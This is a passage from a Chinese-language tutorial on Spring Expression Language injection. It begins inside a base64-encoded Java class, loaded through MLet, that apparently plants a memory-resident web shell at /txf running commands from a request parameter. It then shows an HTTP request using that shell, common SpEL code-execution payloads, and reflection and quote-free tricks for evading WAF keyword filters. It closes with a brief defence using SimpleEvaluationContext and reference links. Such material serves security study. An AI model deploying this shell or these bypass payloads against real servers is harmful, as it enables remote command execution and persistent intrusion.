ADwAPEHAOUMAPIA8wEABEV2aWwMAPQA8QEARm9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL3NlcnZsZXQvbXZjL2NvbmRpdGlvbi9QYXR0ZXJuc1JlcXVlc3RDb25kaXRpb24BABBqYXZhL2xhbmcvU3RyaW5nAQAEL3R4ZgwATQD1AQBMb3JnL3NwcmluZ2ZyYW1ld29yay93ZWIvc2VydmxldC9tdmMvY29uZGl0aW9uL1JlcXVlc3RNZXRob2RzUmVxdWVzdENvbmRpdGlvbgEANW9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL2JpbmQvYW5ub3RhdGlvbi9SZXF1ZXN0TWV0aG9kDABNAPYBAD1vcmcvc3ByaW5nZnJhbWV3b3JrL3dlYi9zZXJ2bGV0L212Yy9tZXRob2QvUmVxdWVzdE1hcHBpbmdJbmZvDABNAPcMAE0AZAwA+AD5AQBAb3JnL3NwcmluZ2ZyYW1ld29yay93ZWIvY29udGV4dC9yZXF1ZXN0L1NlcnZsZXRSZXF1ZXN0QXR0cmlidXRlcwwA+gD7DAD8AP0HAOEMAP4A/wEAF2phdmEvbGFuZy9TdHJpbmdCdWlsZGVyAQAFdXRmLTgHAOIMAQAAZAEAF3RleHQvaHRtbCxjaGFyc2V0PXV0Zi04DAEBAGQMAQIBAwEAB29zLm5hbWUHAQQMAQUA/wwBBgEHAQADd2luDAEIAQkBABhqYXZhL2xhbmcvUHJvY2Vzc0J1aWxkZXIBAAdjbWQuZXhlAQACL2MMAGkBCgEAFmphdmEvaW8vQnVmZmVyZWRSZWFkZXIBABlqYXZhL2lvL0lucHV0U3RyZWFtUmVhZGVyBwDjDAELAQwBAANHQksHAQ0MAO4BDgwATQEPDABNARABAAcvYmluL3NoAQACLWMBAAVVVEYtOAwBEQEHDAESARMMARIBFAEABTwvcCA+DAEVARYHARcMARgBGQcA5AwBGgBODAEbAE4BABNqYXZhL2lvL0lPRXhjZXB0aW9uDAEcAE4BAB9qYXZhL2xhbmcvTm9TdWNoTWV0aG9kRXhjZXB0aW9uAQAgamF2YS9sYW5nL0NsYXNzTm90Rm91bmRFeGNlcHRpb24BABBqYXZhL2xhbmcvT2JqZWN0AQATamF2YS9sYW5nL0V4Y2VwdGlvbgEAJWphdmF4L3NlcnZsZXQvaHR0cC9IdHRwU2VydmxldFJlcXVlc3QBACZqYXZheC9zZXJ2bGV0L2h0dHAvSHR0cFNlcnZsZXRSZXNwb25zZQEAEWphdmEvbGFuZy9Qcm9jZXNzAQATamF2YS9pby9QcmludFdyaXRlcgEAGGphdmEvbGFuZy9yZWZsZWN0L01ldGhvZAEAPG9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL2NvbnRleHQvcmVxdWVzdC9SZXF1ZXN0Q29udGV4dEhvbGRlcgEAGGN1cnJlbnRSZXF1ZXN0QXR0cmlidXRlcwEAPSgpTG9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL2NvbnRleHQvcmVxdWVzdC9SZXF1ZXN0QXR0cmlidXRlczsBADlvcmcvc3ByaW5nZnJhbWV3b3JrL3dlYi9jb250ZXh0L3JlcXVlc3QvUmVxdWVzdEF0dHJpYnV0ZXMBAAxnZXRBdHRyaWJ1dGUBACcoTGphdmEvbGFuZy9TdHJpbmc7SSlMamF2YS9sYW5nL09iamVjdDsBAAdnZXRCZWFuAQAlKExqYXZhL2xhbmcvQ2xhc3M7KUxqYXZhL2xhbmcvT2JqZWN0OwEAB2Zvck5hbWUBACUoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvQ2xhc3M7AQARZ2V0RGVjbGFyZWRNZXRob2QBAEAoTGphdmEvbGFuZy9TdHJpbmc7W0xqYXZhL2xhbmcvQ2xhc3M7KUxqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2Q7AQANc2V0QWNjZXNzaWJsZQEABChaKVYBAAlnZXRNZXRob2QBABYoW0xqYXZhL2xhbmcvU3RyaW5nOylWAQA7KFtMb3JnL3NwcmluZ2ZyYW1ld29yay93ZWIvYmluZC9hbm5vdGF0aW9uL1JlcXVlc3RNZXRob2Q7KVYBAfYoTG9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL3NlcnZsZXQvbXZjL2NvbmRpdGlvbi9QYXR0ZXJuc1JlcXVlc3RDb25kaXRpb247TG9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL3NlcnZsZXQvbXZjL2NvbmRpdGlvbi9SZXF1ZXN0TWV0aG9kc1JlcXVlc3RDb25kaXRpb247TG9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL3NlcnZsZXQvbXZjL2NvbmRpdGlvbi9QYXJhbXNSZXF1ZXN0Q29uZGl0aW9uO0xvcmcvc3ByaW5nZnJhbWV3b3JrL3dlYi9zZXJ2bGV0L212Yy9jb25kaXRpb24vSGVhZGVyc1JlcXVlc3RDb25kaXRpb247TG9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL3NlcnZsZXQvbXZjL2NvbmRpdGlvbi9Db25zdW1lc1JlcXVlc3RDb25kaXRpb247TG9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL3NlcnZsZXQvbXZjL2NvbmRpdGlvbi9Qcm9kdWNlc1JlcXVlc3RDb25kaXRpb247TG9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL3NlcnZsZXQvbXZjL2NvbmRpdGlvbi9SZXF1ZXN0Q29uZGl0aW9uOylWAQAPcmVnaXN0ZXJNYXBwaW5nAQBuKExvcmcvc3ByaW5nZnJhbWV3b3JrL3dlYi9zZXJ2bGV0L212Yy9tZXRob2QvUmVxdWVzdE1hcHBpbmdJbmZvO0xqYXZhL2xhbmcvT2JqZWN0O0xqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2Q7KVYBAApnZXRSZXF1ZXN0AQApKClMamF2YXgvc2VydmxldC9odHRwL0h0dHBTZXJ2bGV0UmVxdWVzdDsBAAtnZXRSZXNwb25zZQEAKigpTGphdmF4L3NlcnZsZXQvaHR0cC9IdHRwU2VydmxldFJlc3BvbnNlOwEADGdldFBhcmFtZXRlcgEAJihMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9TdHJpbmc7AQAUc2V0Q2hhcmFjdGVyRW5jb2RpbmcBAA5zZXRDb250ZW50VHlwZQEACWdldFdyaXRlcgEAFygpTGphdmEvaW8vUHJpbnRXcml0ZXI7AQAQamF2YS9sYW5nL1N5c3RlbQEAC2dldFByb3BlcnR5AQALdG9Mb3dlckNhc2UBABQoKUxqYXZhL2xhbmcvU3RyaW5nOwEACGNvbnRhaW5zAQAbKExqYXZhL2xhbmcvQ2hhclNlcXVlbmNlOylaAQAVKClMamF2YS9sYW5nL1Byb2Nlc3M7AQAOZ2V0SW5wdXRTdHJlYW0BABcoKUxqYXZhL2lvL0lucHV0U3RyZWFtOwEAGGphdmEvbmlvL2NoYXJzZXQvQ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'),new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader()))}
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

any

```





之后访问：

```
GET /txf?code=ipconfig HTTP/1.1
Host: 192.168.17.1:8080
Content-Length: 0

```



### WAF绕过

#### 常用载荷

常用payload如下所示：

```
#{12*12}
#{T(java.lang.Runtime).getRuntime().exec("calc")}
#{new java.lang.ProcessBuilder('cmd','/c','calc').start()}
#{T(Thread).sleep(10000)}

```

#### 关键字类

针对关键字或黑名单过滤检查的场景我们可以通过反射调用来绕过，具体代码如下所示：

```
package org.example.spelsecstudy;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

public class ExecuteTest {
    public static void main(String[] args) throws Exception {
        String spel = "T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\").getMethod(\"ex\"+\"ec\",T(String[])).invoke(T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\").getMethod(\"getRu\"+\"ntime\").invoke(T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\")),new String[]{\"cmd\",\"/C\",\"calc\"})";
        ExpressionParser parser = new SpelExpressionParser(); //创建解析器
        Expression expression = parser.parseExpression(spel); //解析表达式
        System.out.println(expression.getValue()); //弹出计算器
    }
}

```

执行结果如下所示：



备注：如果过滤了.getClass则可以使用''.class.getSuperclass().class替代

#### 引号过滤

当引号被过滤后我们没法直接使用字符串，那么此时我们可以考虑一下方式来绕过：

```
T(java.lang.Character).toString(97).concat(T(java.lang.Character).toString(98))

```



### 防御措施

通过使用SimpleEvaluationContext替换StandardEvaluationContext  
<https://docs.spring.io/spring-framework/docs/5.0.6.RELEASE/javadoc-api/org/springframework/expression/spel/support/SimpleEvaluationContext.html>

```
package org.example.spelsecstudy;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;
import org.springframework.expression.spel.support.SimpleEvaluationContext;

public class ExecuteTest {
    public static void main(String[] args){
        // 创建一个表达式解析器
        ExpressionParser parser = new SpelExpressionParser();

        // 创建简单的评估上下文，允许访问变量和方法
        SimpleEvaluationContext context = SimpleEvaluationContext.forReadOnlyDataBinding().build();

        //构造表达式
        String spel = "T(java.lang.Runtime).getRuntime().exec(\"calc\")";

        // 解析表达式
        Expression expression = parser.parseExpression(spel);

        // 评估表达式
        Integer result = expression.getValue(context, Integer.class);

        // 打印结果
        System.out.println("结果: " + result); // 输出: 结果: 15
    }
}

```

执行结果如下所示：



### 参考链接

<https://www.cnblogs.com/LittleHann/p/17797058.html#_label2>  
<https://docs.spring.io/spring-framework/docs/5.0.6.RELEASE/javadoc-api/org/springframework/expression/spel/support/SimpleEvaluationContext.html>  
<http://www.bmth666.cn/2023/04/15/SpEL%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E5%AD%A6%E4%B9%A0/index.html>
